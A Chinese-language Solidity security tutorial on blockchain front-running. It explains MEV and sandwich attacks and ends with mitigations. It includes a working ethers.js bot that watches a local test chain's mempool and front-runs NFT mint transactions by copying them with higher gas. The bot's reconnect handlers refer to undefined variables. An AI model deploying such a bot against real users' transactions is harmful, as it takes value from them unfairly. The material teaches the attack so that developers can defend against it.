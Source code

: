 ```yaml
---
title: S11. Front-running
tags:
    - solidity
    - security
    - erc721
---
```


# WTF Solidity S11. Front-running

Recently, I have been revisiting Solidity, consolidating the finer details, and writing "WTF Solidity" tutorials for newbies. 

Twitter: [@0xAA_Science](https://twitter.com/0xAA_Science) | [@WTFAcademy_](https://twitter.com/WTFAcademy_)

Community: [Discord](https://discord.gg/5akcruXrsk)｜[Wechat](https://docs.google.com/forms/d/e/1FAIpQLSe4KGT8Sh6sJ7hedQRuIYirOoZK_85miz3dw7vA1-YjodgJ-A/viewform?usp=sf_link)｜[Website wtf.academy](https://wtf.academy)

Codes and tutorials are open source on GitHub: [github.com/AmazingAng/WTF-Solidity](https://github.com/AmazingAng/WTF-Solidity)

English translations by: [@yzhxxyz](https://twitter.com/yzhxxyz)

---

这一讲，我们将介绍智能合约的抢先交易（Front-running，抢跑）。据统计，以太坊上的套利者通过三明治攻击（sandwich attack）[共获利$12亿](https://dune.com/chorus_one/ethereum-mev-data)。

## Front-running

### 传统抢跑
抢跑最初诞生于传统金融市场，是一场单纯为了利益的竞赛。在金融市场中，信息差催生了金融中介机构，他们可以通过最先了解某些行业信息并最先做出反应从而实现获利。这些攻击主要发生在股票市场交易和早期的域名注册。

2021 年 9 月，NFT 市场 OpenSea 的产品负责人 Nate Chastain，被发现通过抢先购买将在 OpenSea 首页展示的 NFT 获利。
他利用内幕信息来获得不公平的信息差，OpenSea 将要在首页推送哪些 NFT，然后在展出在首页前抢先买入，然后再在 NFT 登上首页后卖出。然而，有一个人通过将 NFT 交易时间戳与 OpenSea 上有问题的 NFT 的首页促销进行匹配，发现了这一非法行为，Nate 也被告上法院。

另一个传统抢跑的例子包括是在代币上[币安](https://www.wsj.com/articles/crypto-might-have-an-insider-trading-problem-11653084398?mod=hp_lista_pos4)/[coinbase](https://www.protocol.com/fintech/coinbase-crypto-insider-trading)等知名交易所之前，会有得知内幕消息的老鼠仓提前买入。在上币的公告发出后，币价会大幅上涨，这时抢跑者会卖出盈利。

### 链上抢跑

链上抢跑指的是搜索者或矿工通过调高`gas`或其他方法将自己的交易安插在其他交易之前，来攫取价值。在区块链中，矿工可以通过打包、排除或重新排序他们产生的区块中的交易来获得一定的利润，而`MEV`是衡量这种利润的指标。

在用户的交易被矿工打包进以太坊区块链之前，大部分交易会汇集到Mempool（交易内存池）中，矿工在这里寻找费用高的交易优先打包出块，实现利益最大化。通常来说，gas price越高的交易，越容易被打包。同时，一些`MEV`机器人也会搜索`mempool`中有利可图的交易。比如，一笔在去中心化交易所中滑点设置过高的`swap`交易可能会被三明治攻击：通过调整gas，套利者会在这笔交易之前插一个买单，再在之后发送一个卖单，并从中盈利。这等效于哄抬市价。

![](./img/S11-1.png)

## 抢跑实践

如果你学会了抢跑，你就算是入门的币圈科学家了。接下来，让我们实践一下，抢跑一笔铸造NFT的交易。我们将会用到的工具：
- `Foundry`的`anvil`工具搭建本地测试链，请提前安装好 [foundry](https://book.getfoundry.sh/getting-started/installation)。
- `remix`进行NFT合约的部署和铸造
- `etherjs`脚本监听`mempool`并进行抢跑。

**1. 启动Foundry本地测试链：** 在安装好 `foundry` 之后，在命令行输入 `anvil --chain-id 1234 -b 10` 搭建本地测试链，chain-id 为 1234，每 10 秒产出一个区块。搭建成功后，它会在显示一些测试账户的地址和私钥，每个账户有 10000 ETH。你可以使用它们进行测试。

![](./img/S11-2.png)

**2. 将Remix连接到测试链：** 打开 Remix 的部署页面，打开左上角的`Environment`下拉菜单，选`Foundry Provider`即可将 Remix 连接到测试链。

![](./img/S11-3.png)


**3. 部署NFT合约：** 在 Remix 上部署一个简单的 freemint（免费铸造）NFT合约。它有一个`mint()`，用于免费铸造NFT。

```solidity
// SPDX-License-Identifier: MIT
// By 0xAA
pragma solidity ^0.8.4;
import "@openzeppelin/contracts/token/ERC721/ERC721.sol";

// 我们尝试frontrun一笔Free mint交易
contract FreeMint is ERC721 {
    uint256 public totalSupply;

    // 构造函数，初始化NFT合集的名称、代号
    constructor() ERC721("Free Mint NFT", "FreeMint"){}

    // 铸造函数
    function mint() external {
        _mint(msg.sender, totalSupply); // mint
        totalSupply++;
    }
}
```

**4. 部署ethers.js抢跑脚本：** 简单来说，`frontrun.js`脚本监听了测试链`mempool`中的未决交易，筛选出调用了`mint()`的交易，然后复制它并调高`gas`进行抢跑。如果你不熟悉`ether.js`，可以阅读[WTF Ethers极简教程](https://github.com/WTFAcademy/WTF-Ethers)。

```js
// provider.on("pending", listener)
import { ethers, utils } from "ethers";

// 1. 创建provider
var url = "http://127.0.0.1:8545";
const provider = new ethers.providers.WebSocketProvider(url);
let network = provider.getNetwork()
network.then(res => console.log(`[${(new Date).toLocaleTimeString()}] 连接到 chain ID ${res.chainId}`));

// 2. 创建interface对象，用于解码交易详情。
const iface = new utils.Interface([
    "function mint() external",
])

// 3. 创建钱包，用于发送抢跑交易
const privateKey = '0x5de4111afa1a4b94908f83103eb1f1706367c2e68ca870fc3fb9a804cdab365a'
const wallet = new ethers.Wallet(privateKey, provider)

const main = async () => {
    // 4. 监听pending的mint交易，获取交易详情，然后解码。
    console.log("\n4. 监听pending交易，获取txHash，并输出交易详情。")
    provider.on("pending", async (txHash) => {
        if (txHash) {
            // 获取tx详情
            let tx = await provider.getTransaction(txHash);
            if (tx) {
                // filter pendingTx.data
                if (tx.data.indexOf(iface.getSighash("mint")) !== -1 && tx.from != wallet.address ) {
                    // 打印txHash
                    console.log(`\n[${(new Date).toLocaleTimeString()}] 监听Pending交易: ${txHash} \r`);

                    // 打印解码的交易详情
                    let parsedTx = iface.parseTransaction(tx)
                    console.log("pending交易详情解码：")
                    console.log(parsedTx);
                    // Input data解码
                    console.log("raw transaction")
                    console.log(tx);

                    // 构建抢跑tx
                    const txFrontrun = {
                        to: tx.to,
                        value: tx.value,
                        maxPriorityFeePerGas: tx.maxPriorityFeePerGas * 1.2,
                        maxFeePerGas: tx.maxFeePerGas * 1.2,
                        gasLimit: tx.gasLimit * 2,
                        data: tx.data
                    }
                    // 发送抢跑交易
                    var txResponse = await wallet.sendTransaction(txFrontrun)
                    console.log(`正在frontrun交易`)
                    await txResponse.wait()
                    console.log(`frontrun 交易成功`)                
                }
            }
        }
    });

    provider._websocket.on("error", async () => {
        console.log(`Unable to connect to ${ep.subdomain} retrying in 3s...`);
        setTimeout(init, 3000);
      });

    provider._websocket.on("close", async (code) => {
        console.log(
            `Connection lost with code ${code}! Attempting reconnect in 3s...`
        );
        provider._websocket.terminate();
        setTimeout(init, 3000);
    });    
};

main()
```

**5. 调用`mint()`函数：** 在 Remix 的部署页面调用 Freemint 合约的`mint()` 函数，进行 NFT 铸造。

**6. 脚本监听到交易并进行抢跑** 我们可以在终端看到 `frontrun.js` 脚本成功监听到了交易，并进行了抢跑。如果你调用 NFT 合约的 `ownerOf()` 函数查看 `tokenId` 为 0 的持有者是抢跑脚本中的钱包地址，证明抢跑成功！。
![](./img/S11-4.png)

## 预防方法

抢先交易是以太坊等公链上普遍存在的问题。我们没法消除它，但是可以通过减少交易顺序或时间的重要性，减少被抢先交易的收益：

- 使用预提交方案(commit-reveal scheme)。
- 使用暗池，用户发出的交易将不进入公开的`mempool`，而是直接到矿工手里。例如 flashbots 和 TaiChi。

## 总结

这一讲，我们介绍了以太坊的抢先交易，也叫抢跑。这种起源于传统金融行业的攻击模式在区块链中更容易实施，因为所有的交易信息都是公开的。我们做了一个抢跑的时间：抢跑一笔铸造 NFT 的交易。当需要有类似的交易时，最好支持隐藏的内存池，或者实施批量拍卖等措施限制。它是以太坊等公链上普遍存在的问题，我们没法消除它，但是可以通过减少交易顺序或时间的重要性，减少被抢先交易的收益。
